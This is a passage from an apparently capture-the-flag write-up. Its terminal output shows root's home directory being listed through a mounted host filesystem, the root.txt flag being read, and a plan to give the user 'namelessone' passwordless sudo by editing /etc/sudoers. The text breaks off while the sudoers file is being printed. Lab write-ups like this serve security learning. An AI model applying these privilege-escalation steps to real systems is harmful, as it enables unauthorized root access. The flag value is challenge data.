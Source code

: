 
/mnt/root # ^[[45;13Rcd root
cd root
/mnt/root/root # ^[[45;18Rls -la
ls -la
total 60
drwx------    6 root     root          4096 May 17 21:30 .
drwxrwxrwx   24 root     root          4096 May 12 17:04 ..
-rw-------    1 root     root            55 May 14 14:53 .Xauthority
lrwxrwxrwx    1 root     root             9 May 11 15:17 .bash_history -> /dev/null
-rw-r--r--    1 root     root          3106 Apr  9  2018 .bashrc
drwx------    2 root     root          4096 May 11 16:05 .cache
drwx------    3 root     root          4096 May 11 16:05 .gnupg
drwxr-xr-x    3 root     root          4096 May 11 20:10 .local
-rw-r--r--    1 root     root           148 Aug 17  2015 .profile
-rw-r--r--    1 root     root            66 May 11 20:10 .selected_editor
drwx------    2 root     root          4096 May 11 14:54 .ssh
-rw-------    1 root     root         13795 May 17 21:30 .viminfo
-rw-r--r--    1 root     root            33 May 11 19:15 root.txt
/mnt/root/root # cat root.txt
cat root.txt
4d930091c31a622a7ed10f27999af363

And we have the root.txt file!

To privesc we can set namelessone to have passwordless sudo access by editing the /etc/sudoers file:

/mnt/root # ^[[45;13Rcat ./etc/sudoers
cat ./etc/sudoers
#
# This file MUST be edited with the 'visudo' command as root.
#
# Please consider adding local content in /etc/sudoers.d/ instead of
# directly modifying this file.
#
# See the man page for details on how to write a sudoers file.
#
Defaults        env_reset
Defaults        mail_badpass
Defaults        secure_path="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin"

# Host alias specification
